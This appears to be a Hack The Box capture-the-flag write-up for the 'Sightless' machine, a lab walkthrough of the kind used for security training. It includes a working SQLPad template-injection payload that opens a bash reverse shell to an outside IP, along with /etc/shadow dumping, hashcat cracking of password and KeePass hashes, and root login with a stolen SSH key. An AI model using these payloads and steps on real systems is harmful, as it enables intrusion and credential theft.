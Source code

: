 # HTB - Sightless

**IP Address:** `10.10.11.32`  
**OS:** Ubuntu (Jammy + Docker)  
**Difficulty:** Medium  
**Tags:** #Web, #Docker, #SQLPad, #CVE-2022-0944, #SSH, #PortForwarding, #KeePass

---

## 1. Enumeration

### 1.1 Ping

```bash
ping -c 1 10.10.11.32
```

✅ Machine is reachable

### 1.2 Nmap Scans

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.32 -oG allPorts
nmap -p21,22,80 -sC -sV 10.10.11.32 -oN targeted
```

Found:

- 21/tcp → FTP
- 22/tcp → SSH (OpenSSH 8.9p1)
- 80/tcp → HTTP (nginx 1.18.0)

---

## 2. Web Analysis

After editing `/etc/hosts`, accessed subdomain running **SQLPad**.  
Verified via port check:

```bash
nmap -p3306 -sC -sV 10.10.11.32
```

Port was closed, but a connection attempt was seen on the server.

---

## 3. Exploiting SQLPad (CVE-2022-0944)

Used RCE vulnerability:

```json
{{process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.4/443 0>&1"')}}
```

Started listener:

```bash
nc -lnvp 443
```

✅ Received reverse shell  
Confirmed access inside Docker container.

---

## 4. Extracting Password Hashes

Dumped `/etc/shadow`. Found hash for `michael`:

```bash
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

Used `hashid` → SHA-512 (mode 1800)

Cracked with Hashcat:

```bash
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

✅ Password: `insaneclownposse`

---

## 5. SSH to Main Host

```bash
ssh michael@10.10.11.32
```

🏁 **User flag obtained**

---

## 6. Local Port Forwarding

Apache2 was running on `127.0.0.1:8080`, discovered via:

```bash
ss -nltp
```

Port forwarding:

```bash
ssh michael@10.10.11.32 -L 8081:127.0.0.1:8080
```

Added to `/etc/hosts`:

```
127.0.0.1 admin.sightless.htb
```

Accessed: `http://admin.sightless.htb:8081`

---

## 7. Froxlor Exploitation (XSS)

Identified Froxlor panel on port 8080.

Found advisory: [GHSA-x525-54hf-xr53](https://github.com/advisories/GHSA-x525-54hf-xr53)

Used Burp Suite to intercept login and inject payload into login field.

After second login attempt with:

- Username: abcd  
- Password: Abcd@@1234

✅ Logged in as admin

---

## 8. FTP Access & KeePass

New user `web1` was visible. Updated password via web panel.

Logged in via FTP:

```bash
lftp 10.10.11.32
```

Found file: `Database.kdb` (KeePass DB)

Extracted hash:

```bash
keepass2john Database.kdb > hash.txt
```

Cracked with:

```bash
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```

✅ Password: `bulldogs`

Opened DB in KeePassXC → found root credentials

---

## 9. SSH as Root

Password did not work directly.

Discovered attached `id_rsa` file in KeePass entry.  
Pasted contents into local file and set permissions:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.32
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
